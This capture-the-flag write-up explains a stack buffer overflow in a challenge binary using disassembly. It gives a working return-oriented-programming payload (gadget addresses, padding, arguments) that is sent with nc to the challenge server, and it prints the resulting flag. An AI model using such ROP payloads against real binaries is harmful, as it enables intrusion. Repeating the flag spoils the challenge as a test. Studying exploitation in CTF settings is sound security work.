# Really Obnoxious Problem
`objdump` output
```
00000000004012fb <vuln>:
  4012fb:	f3 0f 1e fa          	endbr64 
  4012ff:	55                   	push   rbp
  401300:	48 89 e5             	mov    rbp,rsp
  401303:	48 83 ec 40          	sub    rsp,0x40
  401307:	48 8d 3d 20 0d 00 00 	lea    rdi,[rip+0xd20]
  40130e:	b8 00 00 00 00       	mov    eax,0x0
  401313:	e8 e8 fd ff ff       	call   401100 <printf@plt>
  401318:	48 8d 35 81 2d 00 00 	lea    rsi,[rip+0x2d81]
  40131f:	48 8d 3d 0f 0d 00 00 	lea    rdi,[rip+0xd0f]
  401326:	b8 00 00 00 00       	mov    eax,0x0
  40132b:	e8 20 fe ff ff       	call   401150 <__isoc99_scanf@plt>
  401330:	e8 eb fd ff ff       	call   401120 <getchar@plt>
  401335:	48 8d 3d fe 0c 00 00 	lea    rdi,[rip+0xcfe]
  40133c:	b8 00 00 00 00       	mov    eax,0x0
  401341:	e8 ba fd ff ff       	call   401100 <printf@plt>
  401346:	48 8d 45 c0          	lea    rax,[rbp-0x40]
  40134a:	48 89 c7             	mov    rdi,rax
  40134d:	b8 00 00 00 00       	mov    eax,0x0
  401352:	e8 d9 fd ff ff       	call   401130 <gets@plt>
  401357:	90                   	nop
  401358:	c9                   	leave  
  401359:	c3                   	ret    

000000000040135a <main>:
  40135a:	f3 0f 1e fa          	endbr64 
  40135e:	55                   	push   rbp
  40135f:	48 89 e5             	mov    rbp,rsp
  401362:	48 8b 05 17 2d 00 00 	mov    rax,QWORD PTR [rip+0x2d17]
  401369:	be 00 00 00 00       	mov    esi,0x0
  40136e:	48 89 c7             	mov    rdi,rax
  401371:	e8 7a fd ff ff       	call   4010f0 <setbuf@plt>
  401376:	b8 00 00 00 00       	mov    eax,0x0
  40137b:	e8 7b ff ff ff       	call   4012fb <vuln>
  401380:	b8 00 00 00 00       	mov    eax,0x0
  401385:	5d                   	pop    rbp
  401386:	c3                   	ret    
  401387:	66 0f 1f 84 00 00 00 	nop    WORD PTR [rax+rax*1+0x0]
  40138e:	00 00
  ```
In this problem a binary is given with three functions. `main` which calls `vuln`, `vuln` which has a buffer overflow vulnerability, and `flag` which outputs that flag. In the flag function it checks that the first argument (`rdi`) is equal to 0x1337 and compares the second argument (`rsi`) to a string. If both equal it prints the flag and otherwise returns.<br><br>
stores `rdi` and `rsi` at `[rbp-0x94]` and `[rbp-0xa0]`
```x86asm
  401265:	89 bd 6c ff ff ff    	mov    DWORD PTR [rbp-0x94],edi
  40126b:	48 89 b5 60 ff ff ff 	mov    QWORD PTR [rbp-0xa0],rsi
```
checks that `[rbp-0x94]` is equal to `0x1337`
```x86asm
  401272:	81 bd 6c ff ff ff 37 	cmp    DWORD PTR [rbp-0x94],0x1337
  401279:	13 00 00 
  40127c:	75 7a                	jne    4012f8 <flag+0xa2>
  ; --- snip ---
  4012f8:	90                   	nop
  4012f9:	c9                   	leave  
  4012fa:	c3                   	ret   
```
checks that `[rbp-0xa0]` is equal to string located at `0x402004`
```x86asm
  40127e:	48 8b 85 60 ff ff ff 	mov    rax,QWORD PTR [rbp-0xa0]
  401285:	ba 05 00 00 00       	mov    edx,0x5
  40128a:	48 8d 35 73 0d 00 00 	lea    rsi,[rip+0xd73]        # 402004
  401291:	48 89 c7             	mov    rdi,rax
  401294:	e8 37 fe ff ff       	call   4010d0 <strncmp@plt>
  401299:	85 c0                	test   eax,eax
  40129b:	75 5b                	jne    4012f8 <flag+0xa2>
  ; --- snip ---
  4012f8:	90                   	nop
  4012f9:	c9                   	leave  
  4012fa:	c3                   	ret
```
I used `ROPgadget` to find the necessary instructions to get the flag and built a payload.
```
pop_rdi     equ 0x4013f3
pop_rsi_r15 equ 0x4013f1
flag_func   equ 0x401256

db 0x41, 0x0a
times 72 db 0x30
dq pop_rdi
dq 0x1337
dq pop_rsi_r15
dq 0x402004
dq 0
dq flag_func
db 0x0a
```
```
> nasm -f bin payload.asm -o payload.bin
> cat payload.bin | nc challs.actf.co 31225
Name: Address: actf{so_swe3t_so_c0ld_so_f4ir_7167cfa2c019}
```
## Flag: actf{so_swe3t_so_c0ld_so_f4ir_7167cfa2c019}